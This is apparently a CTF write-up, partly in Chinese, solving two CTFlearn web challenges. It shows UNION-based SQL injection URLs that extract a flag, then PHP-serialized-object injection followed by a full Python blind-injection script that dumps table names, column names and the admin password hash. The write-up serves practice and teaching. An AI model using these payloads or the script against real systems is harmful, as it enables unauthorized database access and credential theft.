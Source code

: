 # CTF SR 23.04.30 - Incrd

## CTFlearn Inj3ction Time

I stumbled upon this website: <http://web.ctflearn.com/web8/> and I think they have the flag in their somewhere. UNION might be a helpful command
  
`https://web.ctflearn.com/web8/?id=1`  
`https://web.ctflearn.com/web8/?id=1 order by 4`  
`https://web.ctflearn.com/web8/?id=-1 union select group_concat(schema_name),2,3,4 from information_schema.schemata`  
got information_schema,webeight  
`https://web.ctflearn.com/web8/?id=-1 union select group_concat(table_name),2,3,4 from information_schema.tables where table_schema=database()`  
got w0w_y0u_f0und_m3,webeight  
`https://web.ctflearn.com/web8/?id=-1 union select group_concat(column_name),2,3,4 from information_schema.columns where table_schema=database()`  
got f0und_m3,breed,name,color,id  
`https://web.ctflearn.com/web8/?id=-1 union select group_concat(column_name),2,3,4 from information_schema.columns where table_schema=database() and table_name="w0w_y0u_f0und_m3"`  
没有结果，可能是过滤了引号，但是基本可以确定 f0und_m3 字段位于 w0w_y0u_f0und_m3  
`https://web.ctflearn.com/web8/?id=-1 union select group_concat(f0und_m3),2,3,4 from w0w_y0u_f0und_m3`  
abctf{uni0n_1s_4_gr34t_c0mm4nd}  

## CTFlearn Grid It!

Can you bypass the security measures on the site and find the flag? I doubt it. <http://web.ctflearn.com/grid>  

try delete a point

```http
GET /grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:7:"3036224";}
```

### serialize

(PHP 4, PHP 5, PHP 7, PHP 8)

serialize — Generates a storable representation of a value

### Description

serialize(mixed $value): string
Generates a storable representation of a value.

This is useful for storing or passing PHP values around without losing their type and structure.

To make the serialized string into a PHP value again, use unserialize().
> <https://www.php.net/manual/en/function.serialize.php>

Booleans `b:<i>;` where `<i>` is an integer with a value of either 0 (false) or 1 (true).  
Integers `i:<i>;` where `<i>` is the integer value.  
Floats `d:<f>;` where `<f>` is the float value.  
Strings `s:<i>:"<s>";`  
Objects are serialized as:
`O:<i>:"<s>":<i>:{<properties>}`  
`<properties>` are zero or more serialized name value pairs:

> <https://stackoverflow.com/questions/14297926/structure-of-a-serialized-php-string>
<https://www.phpinternalsbook.com/php5/classes_objects/serialization.html>

so `O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:7:"3036224";}` ->

```txt
point
(
    [x] => 1
    [y] => 1
    [ID] => 3036224
)
```

try a simple SQL injection:

```http
GET /grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:12:"3036224 OR 1";}
```

all points were deleted. 说明 ID 字段存在 SQL 注入，无回显使用盲注。  

<https://github.com/terjanq/Flag-Capture/tree/master/Practice/CTFLearn/GridIt#grid-it---write-up-by-terjanq>

```py
import requests, urllib, re, sys

url_base = "http://web.ctflearn.com/grid/controller.php"
url_login= url_base+"?action=login"
url_debug= url_base+"?action=debug"
url_delete= url_base+"?action=delete_point&point="
url_addpoint = url_base+"?action=add_point"

sessid = requests.Session()

payload_base = 'O:5:"point":1:{s:2:"ID";s:@LENGTH@:"@QUERY@";};'
init_array = []
sillent = False
fancy_console = False

ASCIIAlphabet = "\001 !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~"
simpleAlphabet = "\001abcdefghijklmnopqrstuvwxyz"
HEXAlphabet = "\0010123456789abcdef"
advancedAlphabet= "\0010123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz"

admin_hash_payload = "@ID@ AND Ascii(substring((SELECT password FROM user WHERE username='admin' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
tables_payload = "@ID@ AND Ascii(substring((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
columns_user_payload = "@ID@ AND Ascii(substring((SELECT column_name FROM information_schema.columns WHERE table_name = 'user' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
columns_point_payload = "@ID@ AND Ascii(substring((SELECT column_name FROM information_schema.columns WHERE table_name = 'point' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"

def printInPlace(alert):
    if fancy_console:
        sys.stdout.write("{}{}".format(alert, "\b"*len(alert)))
        sys.stdout.flush();
    return fancy_console

def isLogged():
    debug = sessid.get(url_debug)
    i = debug.text.find("[user]")
    return False if i==-1 else True

def createPayload( query ):
    return payload_base.replace("@LENGTH@", str(len(query))).replace("@QUERY@", query)

def sendPayload ( query ):
    if sillent == False: print ("exec: WHERE ID= {}".format(query))
    payload = createPayload(query)
    delete = sessid.get(url_delete+payload)
    return findIDs(delete.text)

def logIn(login_info):
    print ("loggin in: ", login_info)
    sessid.post(url_login, data=login_info, allow_redirects=False)
    return

def findIDs(text):
    regex = re.compile(r"ID:\s(\d{6})")
    matches = regex.findall(text)
    return matches

def addPoints():
    alert = "      [[Adding points]]"
    if printInPlace(alert) == False and sillent == False: 
        print("[[Adding points]]")
    for x in range(1, 30):
        point = {'x': 0, 'y': 0}
        sessid.post(url_addpoint, data=point, allow_redirects=False)
    printInPlace(" "*len(alert))
    return

def tryPayload(str):
    global init_array
    if(len(init_array) <= 1):
        addPoints()
        init_array = sendPayload("1")
    oldLen = len(init_array)
    init_array = sendPayload(str)
    return oldLen != len(init_array)

#bin-search ASCII inside [alphabet]
def findName(payload, alphabet):
    a = 0
    b = len(alphabet)-1
    while (a < b):
        mid = (a+b)//2
        c = alphabet[mid]
        printInPlace(c)
        if tryPayload(payload
            .replace("@cORD@", str(ord(c)))
            .replace("@ID@", str(init_array[0]))
            ): a = mid + 1
        else:
            b = mid
    return alphabet[a]


def findNames(payload, alphabet):
    for result_offset in range(0, 10):
        result = ""
        pl = payload.replace("@rOFFSET@", str(result_offset))
        for word_offset in range(1, 40):
            pl2 = pl.replace("@wOFFSET@", str(word_offset))
            c = findName(pl2, alphabet)
            if c == alphabet[0]: break
            sys.stdout.write(c)
            sys.stdout.flush
            result+=c
        print(" ")
        if len(result) <= 1: break
    return


def findTables():
    print ("..:: Searching for table names ::..")
    findNames(tables_payload, advancedAlphabet)

def findUserColumns():
    print ("..:: Searching for column names in user ::..")
    findNames(columns_user_payload, advancedAlphabet)

def findPointColumns():
    print ("..:: Searching for column names in point::..")
    findNames(columns_point_payload, advancedAlphabet)


def findAdminHash():
    print ("..:: Searching for Admin hash ::..")
    findNames(admin_hash_payload, HEXAlphabet)


def deletePoints():
    sendPayload("1 OR 1")
    exit(0)



fancy_console = True # Turn on fancy terminal output
sillent = True # Turn off debugging mode
logIn({'uname': 'writeup', 'pass': 'writeup'})


if isLogged():
    print("Sucessfully logged in")
else:
    exit("Unsuccessful login!")


#deletePoints();
#addPoints();
init_array = sendPayload("1");

findTables();
findPointColumns();
findUserColumns();
findAdminHash();
```
